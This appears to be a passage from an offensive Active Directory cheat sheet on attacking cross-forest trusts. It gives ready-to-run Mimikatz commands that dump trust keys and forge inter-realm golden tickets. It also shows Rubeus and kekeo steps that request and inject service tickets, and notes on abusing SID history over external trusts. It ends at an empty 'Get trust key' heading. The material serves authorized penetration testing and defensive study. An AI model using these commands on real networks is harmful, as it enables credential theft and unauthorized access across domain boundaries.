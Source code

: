 ````
-  By abusing the trust flow between forests in a two way trust, it is possible to access resources across the forest boundary which are explicity shared with a specific forest.
-  There is no way to enumerate which resources are shared.

#### Dump trust keys
- Look for in trust key from child to parent (first command)
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <COMPUTERNAME>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<CHILD DOMAIN>\<PARENT DOMAIN>$"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

#### Create a intern-forest TGT
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /rc4:<HASH OF TRUST KEY> /service:krbtgt /target:<TARGET FOREST> /sids:<SIDS> /ticket:<KIRBI FILE>"'
```

#### Create and inject TGS
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe asktgs /ticket:<KIRBI FILE> /service:CIFS/<TARGET SERVER> /dc:<TARGET FOREST DC> /ptt
```

#### Create a TGS for a service (kekeo_old)
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
./asktgs.exe <KIRBI FILE> CIFS/<TARGET SERVER>
```

#### Inject the TGS
```
./kirbikator.exe lsa <KIRBI FILE>
```

#### Check access to server
```
dir \\<SERVER NAME>\<SHARE>\
```

### SID history enabled
- This is fine but why can't we access all resources just like Intra forest?
- SID Filtering is the answer. It filters high privilege SIDs from the SIDHistory of a TGT crossing forest boundary. This means we cannot just go ahead and access resources in the trusting forest as an Enterprise Admin.
- If a external trust has SID history enabled. It is possible to inject a SIDHistory for RID => 1000 (higher then 1000) to access resources accessible to that identity or group in the target trusting forest. Needs to be user created!
- This means, if we have an external trust (or a forest trust with SID history enabled /enablesidhistory:yes), we can inject a SIDHistory for RID > 1000 to access resources accessible to that identity or group in the target trusting forest. 

#### Enumerate if SIDFilteringForestAware is enabled
- Run on the DC.
```
Get-ADTrust -Filter *
```

#### Enumerate groups of the target forest with SID higher then 1000
```
Get-ADGroup -Filter 'SID -ge "<TARGET FOREST SID>-1000"' -Server <TARGET FOREST>
```
 
#### Get trust key
````